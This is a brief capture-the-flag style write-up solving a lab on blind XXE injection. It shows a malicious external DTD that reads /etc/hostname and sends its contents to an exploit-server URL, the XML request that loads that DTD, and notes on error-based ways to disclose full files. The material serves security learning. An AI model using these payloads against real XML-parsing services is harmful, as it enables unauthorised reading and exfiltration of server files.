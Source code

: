 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

Description :  This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

Analysis:

By hosting our external DTD Containing this data

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'https://exploit-0a87004b041a6aab815c249801ec00a2.exploit-server.net/exploit/exfiltrate?testing=%file;'>">
%eval;
%error;
``` @ https://exploit-0a87004b041a6aab815c249801ec00a2.exploit-server.net/exploit

and using this direct request 

```XML
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE testing
[<!ENTITY % invoke SYSTEM "https://exploit-0a87004b041a6aab815c249801ec00a2.exploit-server.net/exploit"> %invoke;] >
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```

Lab done ,
Note : note that if the desired filed contained data that cant be sended via URL directly , it may disclouse the first line only OR raise a parsing error and doesn't disclouse anything at all (that the case in this lab)

-> To disclouse the full files try

- Parsing errors
  - Directly (using local DTD)
  - Hosting ur malicous DTD That triggers the error after parsing it
